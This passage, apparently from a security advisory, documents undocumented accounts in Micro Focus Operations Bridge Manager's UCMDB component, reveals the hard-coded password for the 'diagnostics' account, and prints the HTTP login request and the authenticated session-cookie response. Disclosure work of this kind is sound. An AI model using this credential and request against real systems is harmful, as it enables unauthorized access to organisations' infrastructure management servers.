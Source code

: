 * admin
* sysadmin
* UISysadmin
* bsm_odb_customer1
* diagnostics

These users are only visible when accessing the UCMDB component. From the main web application, only *admin* and users created in the main web application are visible.

The first three, *admin*, *sysadmin* and *UISysadmin* all have the same password, which is set up by the administrator when installing the product. 
Only *admin* can login to the main web application, the others can only login to  UCMDB.

I decided to investigate the remaining two accounts, *bsm_odb_customer1* and *diagnostics*, since they are [not referred](https://docs.microfocus.com/search/bsm_odb_customer1/documentation/0/10/Operations%20Bridge%20Manager/2020.05) to [at all](https://docs.microfocus.com/search/diagnostics/documentation/0/10/Operations%20Bridge%20Manager/2020.05) in the [documentation](https://docs.microfocus.com/itom/Operations_Bridge_Manager:2020.05/Home).

Although it was not determined how these accounts are set up, with extensive testing it was determined that they both must have hard-coded passwords. While the password for *bsm_odb_customer1* was never discovered, the password for *diagnostics* is simply "admin".

This allows anyone to login to the UCMDB component as *diagnostics*. It should be noted that this user is unprivileged, but as we will see below, this does not matter.

In order to get a *LWSSO_COOKIE_KEY* that is authenticated, we need to send a request to *ucmdb-ui/cms/loginRequest.do*, with the username and the password in the query string (the latter base 64 encoded):

```
POST /ucmdb-ui/cms/loginRequest.do;?customerID=1&isEncoded=false&userName=diagnostics&password=YWRtaW4=&ldapServerName=UCMDB HTTP/1.1
```
> Snippet A: HTTP POST UCMDB login request

To which the UCMDB server will respond with:

```
HTTP/1.1 200 OK
Date: Sun, 17 May 2020 21:13:21 GMT
X-Frame-Options: SAMEORIGIN
Content-Security-Policy: frame-ancestors 'self'
X-Content-Type-Options: nosniff
X-Xss-Protection: 1; mode=block
Strict-Transport-Security: max-age=31536000
Set-Cookie: LWSSO_COOKIE_KEY=WTQwNdgFlDSM1Il1XTlWJGErjHIGDg54mzv4Yu51_HMk3mrLF7ZMB6KeRecN30sWkdkEFJyLpqUGQ0hXQnPiapbw1891iuGEOW4Ewfk8XNUnIJsouObXN-GaZHLhkfHNlUKp73qEqqvY594n2P5O2sqsn9KYrK7PuGQ5FE0ddKkI2pIvn0rkbT2eRFVdSpHhk-6SadvfLm-CbzdrgLV2INWQgYlYtqMLevI5iv8byN4.; Path=/; HTTPOnly=; Secure=
Expires: Thu, 01 Jan 1970 00:00:00 GMT
Authentication-Result-Key: AUTHENTICATED_SUCCESSFULLY
LOCALE: en
Content-Language: en
Content-Type: text/html;charset=utf-8
Content-Length: 26983

<... POST DATA ...>
```
> Snippet B: HTTP POST UCMDB login response
